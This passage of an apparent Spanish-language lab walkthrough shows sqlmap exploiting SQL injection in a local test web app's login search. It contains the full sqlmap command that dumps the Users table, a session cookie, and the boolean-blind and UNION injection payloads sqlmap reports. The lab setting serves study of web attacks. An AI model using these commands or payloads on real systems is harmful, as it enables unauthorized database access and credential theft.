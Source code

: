 ```zsh  
| before           | numeric |
| caroline-du-nord | numeric |
| cvvnumber]       | numeric |
| e-mail           | numeric |
| e-posta          | numeric |
| e-posta_adres    | numeric |
| e-posta_adresi   | numeric |
| e-postaadres     | numeric |
| e-postaadresi    | numeric |
| full             | numeric |
| group            | numeric |
| int4             | numeric |
| key              | numeric |
| level            | numeric |
| long             | numeric |
| replace          | numeric |
| show             | numeric |
| user             | numeric |
| version          | numeric |
| email            | numeric |
| id               | numeric |
| login            | numeric |
| name             | numeric |
| oid              | numeric |
| password         | numeric |
| rowid            | numeric |
+------------------+---------+

[03:11:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/172.17.0.2'
```  

Con el resultado anterior, logramos identificar que todas las columnas son de tipo numerico.  
Ahora vamos a intentar revisar el contenido de la tabla **Users**, para ello debemos usar el parametro **-T Users --dump**.   

```zsh  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Tests] - [Thu Jun 27, 02:54]
└─[$]> # sqlmap -u "http://172.17.0.2:9090/app/usersearch" --cookie="connect.sid=s%3Ahbsj8Q9LncwBa5WvzuJT905FGSmgF-Sm.etNjaXJx4%2BXt5pn0Xxe7voCeWf3ppz7eKO0TILE3c9M" --data="login=Gerh" -T Users --dump --dbms=sqlite
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[02:55:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: login=Gerh' AND 4169=4169 AND 'XNeY'='XNeY

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login=-6864' UNION ALL SELECT CHAR(113)||CHAR(113)||CHAR(120)||CHAR(120)||CHAR(113)||CHAR(111)||CHAR(87)||CHAR(110)||CHAR(115)||CHAR(117)||CHAR(115)||CHAR(68)||CHAR(81)||CHAR(79)||CHAR(90)||CHAR(85)||CHAR(118)||CHAR(122)||CHAR(76)||CHAR(101)||CHAR(86)||CHAR(82)||CHAR(103)||CHAR(69)||CHAR(70)||CHAR(101)||CHAR(79)||CHAR(81)||CHAR(115)||CHAR(74)||CHAR(82)||CHAR(72)||CHAR(84)||CHAR(72)||CHAR(88)||CHAR(65)||CHAR(79)||CHAR(76)||CHAR(73)||CHAR(86)||CHAR(90)||CHAR(100)||CHAR(65)||CHAR(75)||CHAR(103)||CHAR(113)||CHAR(113)||CHAR(118)||CHAR(98)||CHAR(113),NULL-- PnZX
---
```